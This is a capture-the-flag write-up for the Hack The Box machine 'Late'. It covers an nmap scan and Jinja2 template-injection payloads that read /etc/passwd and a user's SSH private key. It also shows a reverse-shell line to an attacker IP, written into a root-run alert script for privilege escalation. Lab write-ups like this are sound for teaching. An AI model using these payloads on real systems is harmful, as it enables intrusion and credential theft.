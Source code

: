 ```yaml
---
layout: single
title: Late - Hack The Box
excerpt: "Late is a easy Linux machine, we start this machine by going into the web page, there we will find a redirect to images.late.htb. On this page we will find that its a image to text converter with flask meaning that the software behing it is Jinja2. We found a SSTI on the file upload that let you read the id_rsa of svc_acc. Finally we are able to get root by using the file ssh-alert.sh "
date: 2023-02-13
classes: wide
header:
  teaser: /assets/images/htb-writeup-Late/Late-Logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - easy
  - Linux
  - SSTI 
  - Jinja2
  - Flask 

---
```


![](/assets/images/htb-writeup-Late/Late-logo.png)

### Machine IP = 10.10.11.156

## Port Scan

We start with the NMAP scan:
* sudo nmap -sS -sV -sC -p- -vvv -oA nmap/allPorts 10.10.11.156

```
# Nmap 7.93 scan initiated Tue Jan 31 15:14:48 2023 as: nmap -sS -sV -sC -p- -vvv -oA nmap/allPorts 10.10.11.156
Nmap scan report for 10.10.11.156
Host is up, received echo-reply ttl 63 (0.056s latency).
Scanned at 2023-01-31 15:14:49 EST for 117s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 025e290ea3af4e729da4fe0dcb5d8307 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSqIcUZeMzG+QAl/4uYzsU98davIPkVzDmzTPOmMONUsYleBjGVwAyLHsZHhgsJqM9lmxXkb8hT4ZTTa1azg4JsLwX1xKa8m+RnXwJ1DibEMNAO0vzaEBMsOOhFRwm5IcoDR0gOONsYYfz18pafMpaocitjw8mURa+YeY21EpF6cKSOCjkVWa6yB+GT8mOcTZOZStRXYosrOqz5w7hG+20RY8OYwBXJ2Ags6HJz3sqsyT80FMoHeGAUmu+LUJnyrW5foozKgxXhyOPszMvqosbrcrsG3ic3yhjSYKWCJO/Oxc76WUdUAlcGxbtD9U5jL+LY2ZCOPva1+/kznK8FhQN
|   256 41e1fe03a5c797c4d51677f3410ce9fb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBMen7Mjv8J63UQbISZ3Yju+a8dgXFwVLgKeTxgRc7W+k33OZaOqWBctKs8hIbaOehzMRsU7ugP6zIvYb25Kylw=
|   256 28394698171e461a1ea1ab3b9a577048 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIGrWbMoMH87K09rDrkUvPUJ/ZpNAwHiUB66a/FKHWrj
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 1575FDF0E164C3DB0739CF05D9315BDF
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration 

From the scan the clear option is to go to the web server (port 80) and after investigating it we are able to find a redirect link on it

![](/assets/images/htb-writeup-Late/Late-1.png)

Then we need to add ***images.late.htb*** to /etc/hosts and now we are able to get to the page:

![](/assets/images/htb-writeup-Late/Late-2.png)

We find a new page that is a image to text converter with [flask](https://pythonbasics.org/what-is-flask-python/) thus most likely this is running on Jinja2. If we look online for flask and jinja2 exploits we can see that the first thing that pop-up is SSTI.

## Gaining foothold

We start checking the photo to text conversion and it does change whatever we see on the picture. Now we try to upload a new picture writting the following basic SSTI:

```
{{7*7}}
```

When we download the ***result.txt*** file we can see that the basic injection of 7 * 7 is "processed" and its showing the result of the injection

![](/assets/images/htb-writeup-Late/Late-3.png)

after trying multiple injections, multiple backgrounds and multiple fonts to make the injection work we are able to read the **/etc/passwod** file

```
{{get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read()}}
```

![](/assets/images/htb-writeup-Late/Late-4.png)

From the same we can we that the only possible user appart from root that we can attack is **svc_acc**

![](/assets/images/htb-writeup-Late/Late-5.png)


Now that we know the user we can try to get its id_rsa key in case it is created
```
{{get_flashed_messages.__globals__.__builtins__.open("/home/svc_acc/.ssh/id_rsa").read()}}
```
![](/assets/images/htb-writeup-Late/Late-6.png)


with the id_rsa key and the username for sure we can now login to the machine using the **-i** flag on evil-winrm, and we are able to get **user.txt** flag.
![](/assets/images/htb-writeup-Late/Late-7.png)


## Privilege Escalation 

We start looking for any interesting files that might belong to svc_acc that could lead us to some sort of privilege escalation 
```
find / -user svc_acc 2>/dev/null | grep -v -E 'sys|proc|run|home' 
```
![](/assets/images/htb-writeup-Late/Late-8.png)

![](/assets/images/htb-writeup-Late/Late-9.png)

if we look at the file ssh-alert.sh it is basically a file in which the recipient is ROOT and investigating about it all that is is going to do is to send an alert to the user ***when a login or a logout***  is happening on the system.

```
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

To get root access/privileges what we need to do is to add a reverse bash shell line to the existing ssh-alert.sh file and then trigger the alert. First we add the command at the end of the file.

```
echo 'sh -i >& /dev/udp/10.10.14.5/443 0>&1' > /usr/local/sbin/ssh-alert.sh
```

now we trigger the alert and our open nc should has root sheell

![](/assets/images/htb-writeup-Late/Late-10.png)